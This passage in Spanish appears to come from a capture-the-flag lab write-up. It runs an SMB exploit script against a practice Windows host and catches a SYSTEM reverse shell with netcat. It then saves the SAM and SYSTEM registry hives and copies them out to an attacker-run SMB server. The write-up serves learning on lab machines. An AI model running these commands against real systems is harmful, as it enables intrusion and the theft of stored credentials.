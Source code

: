 Una vez hecho esto `ejecutamos` el `exploit`

```
# python2 zzz_exploit.py 10.129.204.243 lsarpc
```

`Obtenemos` una `consola` como el usuario `Administrator`

```
# nc -nlvp 9003                                       
listening on [any] 9003 ...
connect to [10.10.16.35] from (UNKNOWN) [10.129.204.243] 49160
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```
## Extras (Dump SAM and SYSTEM)

Nos `dumpeamos` la `sam` y el `system` de forma local

```
C:\Windows\Temp\PostExploitation> reg save hklm\sam C:\Windows\Temp\PostExploitation\sam
The operation completed successfully.

C:\Windows\Temp\PostExploitation> reg save hklm\system C:\Windows\Temp\PostExploitation\system
The operation completed successfully.

C:\Windows\Temp\PostExploitation> dir
 Volume in drive C has no label.
 Volume Serial Number is BE92-053B

 Directory of C:\Windows\Temp\PostExploitation

11/08/2024  12:36    <DIR>          .
11/08/2024  12:36    <DIR>          ..
11/08/2024  12:36            24,576 sam
11/08/2024  12:36        10,649,600 system
               2 File(s)     10,674,176 bytes
               2 Dir(s)   2,416,324,608 bytes free
```

Nos `creamos` un `servidor SMB` en nuestra máquina

```
# impacket-smbserver smbFolder $(pwd) -smb2support     
```

Nos `transferimos` los `archivos` a nuestra máquina 

```
C:\Windows\Temp\PostExploitation> copy sam \\10.10.16.23\smbFolder\sam
        1 file(s) copied.

C:\Windows\Temp\PostExploitation> copy system \\10.10.16.23\smbFolder\system
        1 file(s) copied.
```
